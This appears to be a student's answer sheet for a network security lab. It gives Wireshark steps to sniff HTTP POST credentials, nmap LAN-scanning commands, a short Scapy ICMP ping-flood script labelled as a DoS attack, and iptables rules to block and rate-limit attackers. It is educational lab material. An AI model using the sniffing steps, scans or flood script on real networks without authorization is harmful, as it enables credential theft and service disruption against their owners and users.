# MSEI 021

## Question 1: Implement the network sniffers to find out usernames and passwords by retrieving the packets from HTTP POST on any website.
Steps Using Wireshark (No Code Needed):

Open Wireshark.
Select your network interface.
Apply the filter: http.request.method == "POST".
Capture traffic, identify HTTP POST packets, and inspect their payload for credentials.

Note: HTTP POST often transmits data like usernames and passwords in plain text. Ensure ethical and authorized use.

## Question 2: Define the topology used in LAN and scan the network with details like IP, MAC Address, Host name, Username, and OS details of at least 10 machines, and generate the report.
Using nmap Command (No Code Needed):

Install nmap:
```bash sudo apt install nmap ```

Scan your LAN:
```nash sudo nmap -sn 192.168.1.0/24 ```
(Replace 192.168.1.0/24 with your subnet.)

To get detailed information, use:

sudo nmap -A -T4 192.168.1.0/24
(This will provide details like IP, MAC Address, Hostname, OS, and open ports.)

Save the output:

sudo nmap -A -T4 192.168.1.0/24 > network_report.txt
(The results will be stored in network_report.txt.)

## Question 3: Attempt a DoS/DDoS attack on the target computer and display the list of IPs with access details. Prevent the DDoS attack using any firewall.

Part A: Attempt DoS Attack
Code for DoS Attack Using Scapy:

python

from scapy.all import *

target_ip = "192.168.1.100"  # Replace with the target IP
packet = IP(dst=target_ip)/ICMP()  # ICMP packets for ping flood

print("Starting DoS attack...")
send(packet, count=10000, inter=0.001)  # Sends 10,000 packets
print("DoS attack completed.")

Part B: Display IPs Who Attempted the Attack
Monitor logs using:

bash
sudo tail -f /var/log/syslog

Use iptables to track incoming traffic:

bash
sudo iptables -L -n -v

Part C: Prevent DDoS Using Firewall
Commands to Block IPs Using iptables:

Block specific attacking IP:

bash
sudo iptables -A INPUT -s <attacker-ip> -j DROP

Use rate limiting to mitigate attacks:

bash
sudo iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j DROP
